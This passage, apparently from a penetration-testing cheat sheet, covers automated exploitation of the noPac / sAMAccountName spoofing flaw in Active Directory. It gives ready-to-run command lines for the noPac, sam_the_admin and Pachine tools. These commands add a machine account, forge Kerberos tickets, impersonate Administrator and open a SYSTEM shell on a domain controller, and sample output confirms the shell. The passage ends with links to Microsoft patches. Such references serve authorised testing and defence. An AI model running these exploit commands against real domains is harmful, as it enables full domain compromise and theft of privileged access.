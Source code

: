 Automated exploitation:

* [noPac - @cube0x0](https://github.com/cube0x0/noPac)
    ```powershell
    noPac.exe scan -domain htb.local -user user -pass 'password123'
    noPac.exe -domain htb.local -user domain_user -pass 'Password123!' /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service cifs /ptt
    noPac.exe -domain htb.local -user domain_user -pass "Password123!" /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service ldaps /ptt /impersonate Administrator
    ```
* [sam_the_admin - @WazeHell](https://github.com/WazeHell/sam-the-admin)
    ```ps1
    $ python3 sam_the_admin.py "caltech/alice.cassie:Lee@tPass" -dc-ip 192.168.1.110 -shell
    [*] Selected Target dc.caltech.white                                              
    [*] Total Domain Admins 11                                                        
    [*] will try to impersonat gaylene.dreddy                                         
    [*] Current ms-DS-MachineAccountQuota = 10                                        
    [*] Adding Computer Account "SAMTHEADMIN-11$"                                     
    [*] MachineAccount "SAMTHEADMIN-11$" password = EhFMT%mzmACL                      
    [*] Successfully added machine account SAMTHEADMIN-11$ with password EhFMT%mzmACL.
    [*] SAMTHEADMIN-11$ object = CN=SAMTHEADMIN-11,CN=Computers,DC=caltech,DC=white   
    [*] SAMTHEADMIN-11$ sAMAccountName == dc                                          
    [*] Saving ticket in dc.ccache                                                    
    [*] Resting the machine account to SAMTHEADMIN-11$                                
    [*] Restored SAMTHEADMIN-11$ sAMAccountName to original value                     
    [*] Using TGT from cache                                                          
    [*] Impersonating gaylene.dreddy                                                  
    [*]     Requesting S4U2self                                                       
    [*] Saving ticket in gaylene.dreddy.ccache                                        
    [!] Launching semi-interactive shell - Careful what you execute                   
    C:\Windows\system32>whoami                                                        
    nt authority\system 
    ```
* [Pachine - @ly4k](https://github.com/ly4k/Pachine)
    ```powershell
    usage: pachine.py [-h] [-scan] [-spn SPN] [-impersonate IMPERSONATE] [-domain-netbios NETBIOSNAME] [-computer-name NEW-COMPUTER-NAME$] [-computer-pass password] [-debug] [-method {SAMR,LDAPS}] [-port {139,445,636}] [-baseDN DC=test,DC=local]
                  [-computer-group CN=Computers,DC=test,DC=local] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] -dc-host hostname [-dc-ip ip]
                  [domain/]username[:password]
    $ python3 pachine.py -dc-host dc.predator.local -scan 'predator.local/john:Passw0rd!'
    $ python3 pachine.py -dc-host dc.predator.local -spn cifs/dc.predator.local -impersonate administrator 'predator.local/john:Passw0rd!'
    $ export KRB5CCNAME=$PWD/administrator@predator.local.ccache
    $ impacket-psexec -k -no-pass 'predator.local/administrator@dc.predator.local'
    ```

**Mitigations**:
* [KB5007247 - Windows Server 2012 R2](https://support.microsoft.com/en-us/topic/november-9-2021-kb5007247-monthly-rollup-2c3b6017-82f4-4102-b1e2-36f366bf3520)
* [KB5008601 - Windows Server 2016](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008601-os-build-14393-4771-out-of-band-c8cd33ce-3d40-4853-bee4-a7cc943582b9)
* [KB5008602 - Windows Server 2019](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008602-os-build-17763-2305-out-of-band-8583a8a3-ebed-4829-b285-356fb5aaacd7)
* [KB5007205 - Windows Server 2022](https://support.microsoft.com/en-us/topic/november-9-2021-kb5007205-os-build-20348-350-af102e6f-cc7c-4cd4-8dc2-8b08d73d2b31)
* [KB5008102](https://support.microsoft.com/en-us/topic/kb5008102-active-directory-security-accounts-manager-hardening-changes-cve-2021-42278-5975b463-4c95-45e1-831a-d120004e258e)
* [KB5008380](https://support.microsoft.com/en-us/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041)
